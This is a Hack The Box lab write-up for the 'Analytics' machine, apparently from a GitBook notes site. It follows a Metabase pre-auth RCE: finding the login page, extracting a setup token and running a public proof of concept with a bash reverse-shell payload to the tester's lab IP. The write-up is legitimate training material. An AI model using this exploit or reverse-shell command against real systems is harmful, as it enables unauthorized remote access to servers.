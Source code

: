 ```yaml
---
description: https://app.hackthebox.com/machines/Analytics
---
```


# 💢 Analytics

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

After some quick enumeration, we discover a web server  → after a quick look around, we arrive at a login page:

&#x20;

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

a quick search reveals a RCE Pre auth with metabase: [https://github.com/m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

Let's look at the usage:

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

So we capture the request and change the get value in order to find the setup-token:

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

```
setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
```

I tried triggering a whomai, but it is not intended to be used like that, more in an optic to do a reverse shell:

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

So I copy my ip address and then set up a listener:

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

```
python3 main.py -u http://analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.61/9898 0>&1"
```
